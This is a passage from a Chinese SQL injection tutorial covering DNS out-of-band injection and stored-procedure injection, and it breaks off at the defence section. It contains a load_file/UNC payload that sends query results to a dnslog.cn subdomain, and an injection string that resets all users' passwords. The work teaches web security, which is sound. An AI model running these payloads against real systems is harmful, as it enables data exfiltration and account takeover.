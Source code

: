 在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。

### DNS带外注入

在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。

在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是\*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。

DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：

```sql
SELECT * FROM products WHERE id_product=$id_product

#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+

```

该`payload`使用了`loadfile`函数，该函数在这里可以通过`UNC`路径读取远程机器上的文件。它的参数是用`concat`函数拼接起来的`UNC`路径，由于`\`代表了转义的意思，所以实际拼接为`\\{query_result}.af13zg.dnslog.cn\aa.txt`，其中`{query_result}`为查询的结果，根据**泛域名解析原理**，该请求会被`afl3zg.dnslog.cn`记录下来。`afl3zg.dnslog.cn`是在[DNSLog Platform](http://www.dnslog.cn)上面生成的一个域名，我们可以借助它来观察到外带的结果。域名生成之后，点击刷新记录，就可以显示出它接收到的访问信息，其中就包括了我们的查询结果。

### 存储过程注入

在存储过程中，如果应用系统使用和用户交互式的SQL输入，程序就必须考虑注入风险。开发人员需要严格判断用户输入的合法性，以消除代码注入的风险。如果风险不清理，存储过程就可能会被用户输入的恶意代码污染。

下面这段代码，是存储过程注入示例：

```sql
Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring  = 'Select * ' + @columnamelist + ' from ReportTable'
exec(@sqlstring)
Go

```

如果用户输入：

```sql
from users; update users set password = ‘password’; select *

```

上述代码会把用户的输入赋值给`@sqlstring`，在之后的存储过程中执行，导致所有用户的密码更改为`password`。

## 如何防御

虽然SQL注入攻击方式多变，但是在防御角度确有一种“以不变应万变”的防御方案。
